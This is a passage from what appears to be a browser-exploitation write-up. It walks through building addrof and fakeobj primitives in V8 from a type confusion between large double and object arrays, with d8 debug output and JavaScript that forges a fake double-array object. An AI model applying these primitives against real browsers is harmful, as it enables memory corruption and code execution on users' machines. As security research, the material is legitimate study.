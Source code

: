 d8> x = [1.1,1.1,1.1]
[1.1, 1.1, 1.1]
d8> %DebugPrint(x)
DebugPrint: 0x360308049471: [JSArray]
 - map: 0x360308203ae1 <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x3603081cc0f9 <JSArray[0]>
 - elements: 0x360308049451 <FixedDoubleArray[3]> [PACKED_DOUBLE_ELEMENTS]

For example, in this case, the backing store (elements) is located in front of the JSArray at an offset of -0x20 (0x360308049451 - 0x360308049471). The offset of the backing store for an inlined array of particular type and length is predictable and can be found easily using %DebugPrint.

To fake an object, I can create an inlined double array, fakeObj, and read its address by storing it in lObjArr. This would allow me to compute the address of its backing store using the offset. Now if I store the address of the backing store in lDblArr, then lObjArr will be treating the double elements of fakeObj as the memory content of an object:

let fakeObj = [1.1,1.1,1.1];
lObjArr[0] = fakeObj;
lObjArr[1] = fakeObj;

let addressFloat = lDblArr[0];  //<---- reads address of fakeObj as double
let address = ftoi32(addressFloat)[0]; //<---- converts to 32 bit integer

let elements = address -0x20; //<-------- backing store address
lDblAddr[0] = i32tof(elements, elements) //<------- converts element addresses back to float and store in lDblArr
var obj = lObjArr[0];  //<--------- elements being read as Javascript object:
                       //           faked object with content treated as: 
                       //           map: 0x9999999a prototype: 0x3ff19999 ...(hex representation of 1.1)

By writing into the fakeObj array, I can craft an object with content that I control. As v8 determines the type of an object by reading its first field, map, I can create a fake double array if I know the value of the double array map:

fakeObj[0] = i32tof(doubleArrayMapAddr, doubleArrayMapAddr);
fakeObj[1] = i32tof(fakeElementStoreAddr, fakeLength);

%DebugPrint(lObjArr[0]);

DebugPrint: 0x3bed08045b09: [JSArray]
 - map: 0x3bed08203ae1 <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x3bed081cc0f9 <JSArray[0]>
...

At this stage, the type confusion between my large double array and large object array gives me both the addressof and fakeobj primitive. However, it does not offer me an obvious way to leak the address of a map, which means I still would not be able to create any useful fake object. While the object and double backing store readily allows me to perform out-of-bounds access in the large object space, the space is mostly just used for allocating backing stores of large arrays, which means it mostly just contains addresses of JavaScript objects, so that doesn’t give me any more information either.
Bypassing the need to get an infoleak

Just as I was about to give up and try the TypedArray/ArrayBuffer option, I noticed something interesting. The compressed address of the JavaScript double array map does not seem to change at all, even after launching v8 many times:
